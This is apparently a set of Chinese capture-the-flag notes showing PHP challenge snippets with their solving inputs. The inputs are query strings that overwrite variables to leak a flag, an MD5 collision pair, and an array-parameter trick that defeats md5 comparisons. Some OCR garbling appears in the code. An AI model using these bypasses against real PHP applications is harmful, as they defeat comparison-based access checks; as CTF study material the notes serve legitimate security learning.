 ```php
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}


echo "the flag is: ".$flag;
```

1. ?yds=flag
2. ?is=flag&flag=flag



---

## （忘记哪题了）

```
<?php
$str = '123abc';
print(preg_replace('/(\S)(\S)/i','strtolower("\\1")',$str));
?>
```

=》  `strtolower("1")strtolower("3")strtolower("b")`



---

## （忘记哪题了）

```p&#39;h&#39;p
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
                    die("success!);}
```

param1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3Bu%93%D8Igm%A0%D1U%5D%83%60%FB%07%FE%A2&param2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB%07%FE%A2



```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
                            die("success!");
                        }
```

param1[]=QNKCDZO&param2[]=240610708



---
